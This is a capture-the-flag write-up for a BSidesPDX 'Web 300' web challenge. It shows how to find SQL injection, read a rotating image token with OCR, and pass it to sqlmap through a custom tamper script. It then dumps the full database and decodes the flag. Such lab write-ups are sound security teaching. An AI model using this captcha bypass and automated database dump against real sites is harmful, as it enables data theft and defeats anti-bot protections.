# Web 300 Solution

## Solution

```
TROLLSEC

Protecting trollface memes since 2018
```

Who designed this piece of garbage? Anyway...

Looking through the site, the only real input we have seems to be the search page. However it seems to have an annoying anti-bot token. There's a token that changes every 60 seconds, which doesn't leave much time for automated tools to do their work.

So let's just take a look at how a normal request works and see what we can do.

There's two input fields: a search text input and a token input. Next to the token input, there's a link which, when clicked, opens a page with an image of the current token. Let's go ahead and search for "troll" with whatever the correct current token value is.

We end up with a long list of links to a bunch of trollface memes. Seriously, who came up with this junk?! So, let's do that again, but this time open up the web developer tools in whatever browser you're using and capture the request. 

Taking a look through it, it's interesting. The token doesn't show up at all in the parameters. It actually shows up as a custom header called "token".

Well anyway, let's try a few different SQL injection things. If we try to search with a single quote (') we get thrown to an error page. Ok, that's not good. Let's try again, but with a double quote. This time, we just get no results.

Ok, so it seems like there might be some opportunity here for SQL injection. However, I'm lazy and don't want to do it manually. The issue then becomes that dang token. 

Looking at the image of the token, it doesn't look like normal anti-bot tokens. The text is clean. Maybe we can run OCR on it and get the token value? There's a neat python interface to Tesseract: [pytesseract](https://pypi.org/project/pytesseract/). This might allow us to write a python script to automate getting the token value out of the image.

After going through the installation steps, here's a quick demo script:

```
import pytesseract
import requests
from PIL import Image
import io

url = 'http://127.0.0.1:10101/token'
data = requests.get(url).content
img = Image.open(io.BytesIO(data))
text = pytesseract.image_to_string(img)

print text
```

Try testing it out, it seems to work! We can use OCR to get the token value. There's one problem solved.

However, here's where we run into a second problem. How can we automate this so that we can run something like sqlmap? Well sqlmap has a pretty powerful feature called tamper scripts. They allow a python script to make some changes to the request before it's sent to the webserver. Most people just use the predefined ones, but in this case we can create our own tamper script to get the token value and inject it as a header into the request. Here's what that script looks like:

```
#!/usr/bin/env python

from lib.core.data import kb
from lib.core.enums import PRIORITY
import string

import pytesseract
import requests
from PIL import Image
import io

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    url = 'http://127.0.0.1:10101/token'
    data = requests.get(url).content
    img = Image.open(io.BytesIO(data))
    text = pytesseract.image_to_string(img)

    kwargs['headers']['token']=text

    return payload
```

You also may need to throw an empty \__init__.py file into the same folder, as it's needed by sqlmap.

Let's try to use this new tamper script and see if we can get any results:
```
sqlmap --tamper=trollsec_tamper.py -u http://127.0.0.1:10101/_search?query=troll* --dump-all --level=3 --skip-urlencode
```

Eventually, we get results! Unfortunately, it's too many results! There's 30 different secrets tables, and each one is basically just a number of IDs and single letters. Looking at all those letters, they all look like they're base64 characters. Maybe if we just grab all the letters, put them together, and base64 decode it we get something?

```
cat secret1023398629.csv | awk '{if(NR>1)print}' | cut -d',' -f2 | tr -d '\n' | base64 -d

TroLLPdx{dUW*)5DO9xG%sC@bNJcSzK%_wmrJoLCFfjH4GFMA5q$WVDK6!YAMcDgyg8}
```
Well it seems like we're on the right track possibly, we just have to go through a number of different tables doing the same thing. Or just run:
```
for file in *.csv; do cat $file | awk '{if(NR>1)print}' | cut -d',' -f2 | tr -d '\n' | base64 -d; echo ""; done
```

Which, one of the results that pops out is:
```
BSidesPDX{Tr0lo10!_I_4m_vERy_gl4d_45_Im_fin411y_re7urNiNg_b4ck_H0m3}
```
